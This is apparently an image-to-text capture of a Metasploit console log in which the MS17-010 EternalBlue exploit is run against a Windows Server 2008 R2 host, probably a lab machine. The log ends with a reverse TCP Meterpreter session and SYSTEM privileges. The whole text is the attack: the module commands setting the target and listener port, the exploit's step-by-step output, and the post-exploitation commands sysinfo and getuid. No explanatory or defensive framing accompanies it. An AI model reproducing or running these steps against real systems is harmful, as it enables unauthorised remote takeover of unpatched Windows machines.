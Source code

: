
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.0.17.96
RHOSTS => 10.0.17.96
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 1234
LPORT => 1234
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.21.2:1234 
[*] 10.0.17.96:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.17.96:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.17.96:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.17.96:445 - The target is vulnerable.
[*] 10.0.17.96:445 - Connecting to target for exploitation.
[+] 10.0.17.96:445 - Connection established for exploitation.
[+] 10.0.17.96:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.17.96:445 - CORE raw buffer dump (51 bytes)
[*] 10.0.17.96:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.0.17.96:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.0.17.96:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.0.17.96:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.0.17.96:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.17.96:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.17.96:445 - Sending all but last fragment of exploit packet
[*] 10.0.17.96:445 - Starting non-paged pool grooming
[+] 10.0.17.96:445 - Sending SMBv2 buffers
[+] 10.0.17.96:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.17.96:445 - Sending final SMBv2 buffers.
[*] 10.0.17.96:445 - Sending last fragment of exploit packet!
[*] 10.0.17.96:445 - Receiving response from exploit packet
[+] 10.0.17.96:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.17.96:445 - Sending egg to corrupted connection.
[*] 10.0.17.96:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.0.17.96
[*] Meterpreter session 1 opened (10.10.21.2:1234 -> 10.0.17.96:49352 ) at 2023-05-05 13:51:11 +0530
[+] 10.0.17.96:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.17.96:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.17.96:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : VAGRANT-2008R2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
